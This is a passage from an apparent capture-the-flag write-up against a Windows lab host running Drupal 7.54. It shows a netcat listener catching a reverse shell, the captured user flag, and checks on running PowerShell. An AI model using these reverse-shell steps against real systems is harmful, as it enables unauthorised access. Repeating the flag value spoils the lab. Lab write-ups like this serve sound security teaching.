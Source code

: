 In our listener, we get a shell as "drupal":

```
└─$ nc -nvlp 9999                                                                                          130 ⨯
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999
Ncat: Connection from 10.10.10.9.
Ncat: Connection from 10.10.10.9:49196.
SOCKET: Shell has connected! PID: 2748
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\inetpub\drupal-7.54>whoami
iis apppool\drupal

C:\inetpub\drupal-7.54>
```

## Struggling with program execution

### User "iis apppool\drupal"

Looking around in the "Users" directory, we find the user flag:

```
C:\Users\dimitris\Desktop>type user.txt
ba22fde1932d06eb76a163d312f921a2
C:\Users\dimitris\Desktop>
```

Let's see if we can run powershell from within our reverse shell:

```
C:\inetpub\drupal-7.54>powershell
Windows PowerShell 
Copyright (C) 2009 Microsoft Corporation. All rights reserved.

```

Unfortunately, it doesn't work, and also hangs our session. After reconnecting to the target, we check if we can run powershell commands, which we can, as shown below:

```
C:\inetpub\drupal-7.54>powershell $host.Version
powershell $host.Version

Major  Minor  Build  Revision
-----  -----  -----  --------
2      0      -1     -1      

C:\inetpub\drupal-7.54>
```
